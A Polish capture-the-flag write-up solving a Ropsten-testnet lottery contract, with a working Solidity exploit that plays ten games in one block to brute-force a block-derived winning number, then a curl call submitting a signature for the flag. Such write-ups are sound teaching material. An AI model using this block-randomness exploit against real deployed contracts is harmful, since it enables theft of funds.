

# Różdżka chaosu, Kości ze starcem, smart contracts

## Opis

"W zachodniej części Dębiny, przy wejściu do tak zwanego Labiryntu, siedzi samotny starzec. Może dotrzymasz mu towarzystwa?"

## Rozwiązanie

Odwiedzamy starca, który kieruje nas do [https://ropsten.etherscan.io/address/0xE4CF74485e1272e3aDfEe65A724411098bdD1422](https://ropsten.etherscan.io/address/0xE4CF74485e1272e3aDfEe65A724411098bdD1422).
Kod kontraktu podglądamy na stronie. Dostępny jest w pliku [game.sol](./game.sol).

Musimy podać poprawny numer aby został wyemitowany event SecureLotteryWinner.
Do rozwiązania wykorzystałem konto [Metamask](https://metamask.io/) oraz [Remix](https://remix.ethereum.org/)

Widzimy, że to znów loteria, mamy zgadnąć liczbę od 0 do 10 w danej grze. Dlatego w jednym bloku tworzymy sobie dziesięć gier (bo raz sprawdzona gra nie może być sprawdzona więcej razy), które będą mieć ten sam wygrywający numer (bo jest on wyliczany z danych obecnego bloku).
Tworzymy kontrakt, który stworzy dziesięć gier (zapamięta je w tablicy) i potem dla każdej gry sprawdzi jeden numer (od 0 do 10).

```
//SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.6;


interface ISecureLottery {
  function play(uint256 candidate) external returns (uint256 gameId);

  function claim(uint256 gameId) external;
}

contract Bruter {
    uint256[10] gamesIDs;
    
    function ten_plays(address addr) external{
        ISecureLottery lot = ISecureLottery(addr);
        
        for (uint i = 0; i < 10; i++){
            gamesIDs[i] = lot.play(i);
        }
    }
    
    function claim_all(address addr) external{
        ISecureLottery lot = ISecureLottery(addr);
        
        for (uint i = 0; i < 10; i++){
            lot.claim(gamesIDs[i]);
        }
    }
}
```

Dalsze kroki są podobne do kroków w zadaniu "Kości ze starcem". Wywołujemy metodę: `ten_plays`, a potem `claim_all`.

Sprawdzamy detale transakcji na ropsten (jest wygrywająca).


Wysyłamy podpisaną wiadomość i odbieramy flagę:
```
curl -v --data signature=0xdc61779ab284f6d2a13b6b8313325759712e605dd352d2c8695c52c12ea1b7760457c739ca308f3e85e7d238170431ac71be69008d906db74462ab18f24cd5271b https://rozdzka.securing.pl/getflag/0x3e24be9be389be158fbe1985e81e11bd6debc4c25280a6fd16accd748fe64761
```


